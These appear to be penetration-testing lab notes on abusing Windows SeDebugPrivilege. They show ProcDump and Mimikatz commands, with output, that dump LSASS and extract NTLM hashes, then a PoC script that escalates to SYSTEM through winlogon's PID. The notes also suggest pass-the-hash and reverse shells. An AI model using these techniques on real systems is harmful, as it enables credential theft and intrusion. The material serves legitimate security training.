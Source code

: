 # SeDebugPrivilege

To run a particular application or service or assist with troubleshooting, a user might be assigned the [SeDebugPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs) instead of adding the account into the administrators group. This privilege can be assigned via local or domain group policy, under `Computer Settings > Windows Settings > Security Settings`. By default, only administrators are granted this privilege as it can be used to capture sensitive information from system memory, or access/modify kernel and application structures. This right may be assigned to developers who need to debug new system components as part of their day-to-day job. This user right should be given out sparingly because any account that is assigned it will have access to critical operating system components.

During an internal penetration test, it is often helpful to use websites such as LinkedIn to gather information about potential users to target. Suppose we are, for example, retrieving many NTLMv2 password hashes using `Responder` or `Inveigh`. In that case, we may want to focus our password hash cracking efforts on possible high-value accounts, such as developers who are more likely to have these types of privileges assigned to their accounts. A user may not be a local admin on a host but have rights that we cannot enumerate remotely using a tool such as BloodHound. This would be worth checking in an environment where we obtain credentials for several users and have RDP access to one or more hosts but no additional privileges.

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After logging on as a user assigned the `Debug programs` right and opening an elevated shell, we see `SeDebugPrivilege` is listed.

```cmd-session
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
```

We can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) suite to leverage this privilege and dump process memory. A good candidate is the Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)) process, which stores user credentials after a user logs on to a system.

```cmd-session
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

This is successful, and we can load this in `Mimikatz` using the `sekurlsa::minidump` command. After issuing the `sekurlsa::logonPasswords` commands, we gain the NTLM hash of the local administrator account logged on locally. We can use this to perform a pass-the-hash attack to move laterally if the same local administrator password is used on one or multiple additional systems (common in large organizations).

{% hint style="info" %}
## Use mimikatz log command

**Note:** It is always a good idea to type "log" before running any commands in "Mimikatz" this way all command output will put output to a ".txt" file. This is especially useful when dumping credentials from a server which may have many sets of credentials in memory.
{% endhint %}

```cmd-session
C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP> 

Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
        tspkg :
        wdigest :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        kerberos :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        ssp :
        credman :

<SNIP>
```

Suppose we are unable to load tools on the target for whatever reason but have RDP access. In that case, we can take a manual memory dump of the `LSASS` process via the Task Manager by browsing to the `Details` tab, choosing the `LSASS` process, and selecting `Create dump file`. After downloading this file back to our attack system, we can process it using Mimikatz the same way as the previous example.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Remote Code Execution as SYSTEM

We can also leverage `SeDebugPrivilege` for [RCE](https://decoder.cloud/2018/02/02/getting-system/). Using this technique, we can elevate our privileges to SYSTEM by launching a [child process](https://docs.microsoft.com/en-us/windows/win32/procthread/child-processes) and using the elevated rights granted to our account via `SeDebugPrivilege` to alter normal system behavior to inherit the token of a [parent process](https://docs.microsoft.com/en-us/windows/win32/procthread/processes-and-threads) and impersonate it. If we target a parent process running as SYSTEM (specifying the Process ID (or PID) of the target process or running program), then we can elevate our rights quickly. Let's see this in action.

First, transfer this [PoC script](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) over to the target system. Next we just load the script and run it with the following syntax `[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`. Note that we must add a third blank argument `""` at the end for the PoC to work properly.

{% hint style="info" %}
## Updated Script (RCE from SeDebugPrivilege)

The PoC script has received an update. Please visit its GitHub repository and review its usage. https://github.com/decoder-it/psgetsystem
{% endhint %}

First, open an elevated PowerShell console (right-click, run as admin, and type in the credentials for the `jordan` user). Next, type `tasklist` to get a listing of running processes and accompanying PIDs.

```powershell-session
PS C:\htb> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

Here we can target `winlogon.exe` running under PID 612, which we know runs as SYSTEM on Windows hosts.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We could also use the [Get-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process?view=powershell-7.2) cmdlet to grab the PID of a well-known process that runs as SYSTEM (such as LSASS) and pass the PID directly to the script, cutting down on the number of steps required.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Other tools such as [this one](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC) exist to pop a SYSTEM shell when we have `SeDebugPrivilege`. Often we will not have RDP access to a host, so we'll have to modify our PoCs to either return a reverse shell to our attack host as SYSTEM or another command, such as adding an admin user. Play around with these PoCs and see what other ways you can achieve SYSTEM access, especially if you do not have a fully interactive session, such as when you achieve command injection or have a web shell or reverse shell connection as the user with `SeDebugPrivilege`. Keep these examples in mind in case you ever run into a situation where dumping LSASS does not result in any useful credentials (though we can get SYSTEM access with just the machine NTLM hash, but that's outside the scope of this module) and a shell or RCE as SYSTEM would be beneficial.
